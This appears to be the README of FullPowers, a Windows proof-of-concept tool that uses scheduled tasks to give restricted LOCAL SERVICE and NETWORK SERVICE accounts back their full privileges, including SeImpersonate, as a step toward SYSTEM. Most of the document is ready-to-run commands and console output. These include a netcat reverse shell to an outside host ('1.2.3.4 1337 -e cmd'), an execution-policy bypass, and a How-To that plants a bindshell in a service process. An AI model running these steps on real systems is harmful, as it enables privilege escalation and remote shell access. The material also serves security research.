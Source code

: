 # FullPowers

___FullPowers___ is a Proof-of-Concept tool I made for automatically recovering the __default privilege set__ of a service account including __SeAssignPrimaryToken__ and __SeImpersonate__. 

<p align="center">
  <img src="demo.gif">
</p>

## Rationale

On Windows, some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to __run with a restricted set of privileges__. Therefore, even if the service is compromised, __you won't get the golden impersonation privileges__ and privilege escalation to `LOCAL SYSTEM` should be more complicated. However, I found that, when you __create a scheduled task__, the new process created by the __Task Scheduler Service__ has __all the default privileges__ of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.

For more information: https://itm4n.github.io/localservice-privileges/

## Usage

:warning: __This tool should be executed as `LOCAL SERVICE` or `NETWORK SERVICE` only.__

You can check the help message using the `-h` option.

```
c:\TOOLS>FullPowers -h

FullPowers v0.1 (by @itm4n)

  This tool leverages the Task Scheduler to recover the default privilege set of a service account.
  For more information: https://itm4n.github.io/localservice-privileges/

Optional arguments:
  -v              Verbose mode, used for debugging essentially
  -c <CMD>        Custom command line to execute (default is 'C:\Windows\System32\cmd.exe')
  -x              Try to get the extended set of privileges (might fail with NETWORK SERVICE)
  -z              Non-interactive, create a new process and exit (default is 'interact with the new process')
```

### Example 1, basic usage
```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 9976
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

### Example 2, specify a custom command line
```
c:\TOOLS>FullPowers -c "powershell -ep Bypass"
[+] Started dummy thread with id 9028
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\WINDOWS\system32> Get-ExecutionPolicy
Bypass
```

### Example 3, start a netcat reverse shell and exit
```
c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
[+] Started dummy thread with id 5482
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
```

## How-To

__You want to test this PoC yourself? That's great!__ Here are some simple instructions to get you started.

The overall idea is to start a bindshell from the process of an existing service, connect to it and then run the executable. 

1. You'll need 2 third-party tools, [netcat](https://eternallybored.org/misc/netcat/) and [RunFromProcess](https://www.nirsoft.net/utils/run_from_process.html).  
2. Pick a service which has limited privileges, e.g.: `upnphost`.  
3. Open the __Task Manager__, go to the __Services__ tab and get the __PID__ of the corresponding process.  
4. Use the following command to start the bindshell __as an administrator__:  
```
C:\TOOLS>RunFromProcess-x64.exe <PID> C:\TOOLS\nc64.exe -l -p 9001 -e cmd
```
5. Use the following command to connect to the bindshell:  
```
C:\TOOLS>nc64.exe 127.0.0.1 9001
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description              State
======================= ======================== =======
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeCreateGlobalPrivilege Create global objects    Enabled
```
6. We can see that the current process has no impersonation privileges. Now run the PoC...  
```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 5568
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

You should now have a shell __with impsersonation privileges__!

